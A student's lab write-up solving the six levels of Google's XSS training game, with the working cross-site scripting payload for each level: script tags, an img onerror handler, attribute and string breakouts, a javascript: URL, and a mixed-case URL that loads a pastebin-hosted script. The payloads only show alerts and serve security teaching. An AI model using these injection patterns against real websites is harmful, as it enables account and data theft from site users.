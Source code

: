 # Web Writeup

Name: Josiah Wedgwood
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Josiah Wedgwood

## Assignment Writeup

### Part 1 (40 Pts)
TODO

### Part 2 (60 Pts)

Level 1:
* First tried inputing the string "test" to see how page changes normally.
* Query text is displayed in bold in the DOM
* Toggling the target code shows that the query text is directly embedded into the DOM between the tags <b> and </b>
* Using the query "<script>alert("test")</script>" shows an alert on the results page and the expected bold text is no longer present.

Query to execute xss:
```html
<script>alert("test")</script>
```

Level 2:
* First I just tried "<script>alert("test")</script>" in the message field to see that the message is turns blank on the webpage, but there's no script execution
* I was honestly stuck on this level. Even though I could embed other html elements in the webpage, I couldn't get the <script> element to work directly
* Using the final hint "This level is sponsored by the letters i, m and g and the attribute onerror.", I quickly looked up what the onerror attribute is for html elements.
* Now knowing about onerror, I used ```"<img src="/doesnotexist" onerror="alert('test')">"``` to save an xss vector on the webpage
  
Message to execute xss:
```html
<img src="/doesnotexist" onerror="alert('test')">
```

Level 3:

* Opened the target code and examined how the chooseTab(num) function showed images on the webpage
* chooseTab directly puts the num parameter in the img src with ```html += "<img src='/static/level3/cloud" + num + ".jpg' />";```
* Clicked on an image to see how URL changes -- #number is appended to URL depending on the image clicked
* I then tried getting the javascript parser to close the image src name and then insert the onerror attribute to execute my xss

URL to execute xss:
```raw
https://xss-game.appspot.com/level3/frame#' onerror='alert("test")'/>
```

Level 4:

* Opened target code and saw that user input is inserted as ```onload="startTimer('{{ timer }}');" ```
* Using ```5');// ``` as the input starts the timer function with 5 seconds and escapes the '); from the onload attribute
* Added an alert between the comments and the semicolon to get ```5');alert("test");// ``` and this executes the alert

Input to execute xss:
```raw
5');alert("test");//
```

Level 5:

* Opening target code shows a variable next that get changed to direct the user's sign up process
* On the signup page, the next button at the bottom is set with an a href tag as ```<a href="{{ next }}">Next >></a>```
* From Flask's security page (http://flask.pocoo.org/docs/1.0/security/), there's a section explaining how Jinja does not protect agains a href tags from executing javascript, so changing the next variable in the URL can embed xss

URL to embed xss (needs user to trigger by clicking next button)
```raw
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('unsafe');
```

Level 6:

* Opening target code showed how the includeGadget program sanitizes the url given in the anchor
* ```if (url.match(/^https?:\/\//))``` only matches agains either http:// or https:// in the url, but it's not case sensitive. Variations like hTTps:// or HTTPS:// will not match
* Pastebin can host a js script that calls the alert function
* Making the anchor hTTps://pastebin.com/Bg2Y5jAY does not seem to make the program execute. The gadget only needs the file, not the pastebin webpage, so changing it to the download link would fix that.

URL anchor to execute xss:
```raw
hTTps://pastebin.com/dl/Bg2Y5jAY
```

